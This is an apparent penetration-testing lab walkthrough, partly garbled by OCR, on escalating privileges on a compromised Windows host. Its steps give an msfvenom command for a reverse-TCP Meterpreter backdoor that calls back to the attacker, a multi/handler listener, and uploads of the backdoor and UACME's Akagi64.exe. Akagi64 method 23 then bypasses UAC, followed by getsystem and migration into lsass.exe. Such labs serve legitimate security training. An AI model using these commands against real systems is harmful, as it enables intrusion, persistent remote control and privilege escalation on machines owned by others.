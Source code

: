 1. In a new window:
    
    - Generate the payload using `msfvenom`: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourip LPORT=1234 -f exe > backdoor.exe`.
      
5. In another new Metasploit console window:
    
    - Set up a listener using the `multi/handler` module in Metasploit.
    - Configure the listener by setting the payload to `windows/meterpreter/reverse_tcp` and specifying LHOST as your IP and LPORT as 1234.
    - Run the listener and then return to the previous Meterpreter session (part 2).
      
6. In the previous Meterpreter session:
    
    - Check the current working directory using `pwd`.
    - Retrieve the current user ID using `getuid`.
    - Verify privileges using `getprivs` to ensure the current privileges.
    - Change the directory to `C:\\` using `cd C:\\`.
    - Create a new directory named "Temp" using `mkdir Temp`.
    - Change to the Temp directory using `cd Temp`.
    - Upload the `backdoor.exe` file to the target system using `upload backdoor.exe`.
    - Upload the `Akagi64.exe` file from the path `/root/Desktop/tools/UACME/Akagi64.exe` using `upload /root/Desktop/tools/UACME/Akagi64.exe`.
7. Open a new shell in Meterpreter using the `shell` command.
    
    - Run the command `\.\\Akagi64.exe 23 c:\Temp\\backdoor.exe` to bypass UAC and execute the backdoor.
8. Go back to the listener console window (where the Meterpreter session with higher privileges is active):
    
- Observe the stage being sent: Monitor the progress of the active session.
- Run `sysinfo`: Gather system information, including details about the compromised system.
- Run `getuid`: Check the current user ID to determine the privileges of the compromised session.
- Gain elevated privileges using the `getprivs` command: Attempt to acquire additional privileges beyond the current level.
- Use the `getsystem` command: This command in Meterpreter is used to escalate privileges on a compromised system. It attempts to elevate the current Meterpreter session to the highest available privilege level, typically aiming for SYSTEM-level privileges on Windows systems.
- List the process tree using `ps`: View the running processes on the compromised system.
- Migrate to another process using the `migrate processid` command: By migrating to another process, such as `lsass.exe` (Local Security Authority Subsystem Service), the attacker gains access to high-level privileges and sensitive security-related information. Migrating to `lsass.exe` offers advantages such as privilege elevation and persistence.
- Check the current user ID again using `getuid`: Verify if the user ID has changed after migrating to the new process.



----

Lab 

**UACME:**
- Defeat Windows User Account Control (UAC) and get Administrator privileges.
- It abuses the built-in Windows AutoElevate executables.
- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.
- Developed by https://twitter.com/hFireF0X
